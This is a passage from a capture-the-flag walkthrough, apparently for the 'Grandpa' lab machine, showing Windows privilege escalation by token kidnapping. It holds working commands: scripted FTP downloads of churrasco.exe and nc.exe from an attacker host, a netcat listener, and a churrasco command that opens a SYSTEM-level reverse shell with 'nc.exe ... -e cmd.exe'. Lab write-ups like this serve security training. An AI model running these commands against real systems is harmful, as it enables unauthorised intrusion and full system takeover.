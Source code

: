 You will get an extensive list of exploits to try on this machine, some of which we also saw in the Metasploit suggester earlier. However there is a different way to privesc through token smuggling: [https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e)

Kali linux normally has “churrasco.exe” already installed here: /usr/share/sqlninja/apps/churrasco.exe

We will also need a nc.exe file to use. Kali has one here: /usr/share/sqlninja/apps/nc.exe

Copy both of those files to your working directory.

![](/images/grandpa/32. ls.png)

Now we can run pyftp to transfer the files over to Grandpa using ftp. On our Kali machine: 

    python -m pyftpdlib -p21

![](/images/grandpa/33. pyftp.png)

Over on our Windows shell (Grandpa) we can echo commands into a txt file to run ftp in a script mode. We need to do this twice, once for each file we need to transfer:

    echo open 10.10.14.24 21> ftp.txt&echo USER anonymous >> ftp.txt&echo anonymous>> ftp.txt&echo bin>> ftp.txt&echo GET churrasco.exe >> ftp.txt&echo bye>> ftp.txt
    
    ftp -v -n -s:ftp.txt

    del ftp.txt

    echo open 10.10.14.24 21> ftp.txt&echo USER anonymous >> ftp.txt&echo anonymous>> ftp.txt&echo bin>> ftp.txt&echo GET nc.exe >> ftp.txt&echo bye>> ftp.txt
    
    ftp -v -n -s:ftp.txt

![](/images/grandpa/34. ftp.png)

Note: The above screenshot only shows one set of the commands above, for churrasco.exe. You need to repeat the steps for nc.exe as well.

On your Kali terminal window you should see the ftp connections and transfer:
 
 ![](/images/grandpa/35. pyftp.png)

Next, we set up a listener on Kali to catch our reverse connection:

    nc -lvnp 17013

Then over on Grandpa:

    churrasco.exe -d "C:\Windows\Temp\nc.exe 10.10.14.24 17013 -e cmd.exe"

![](/images/grandpa/36. churrasco.png)

And back in our Kali terminal:

![](/images/grandpa/37. nc_connection.png)

Success! We are system. Let's go get our flags:
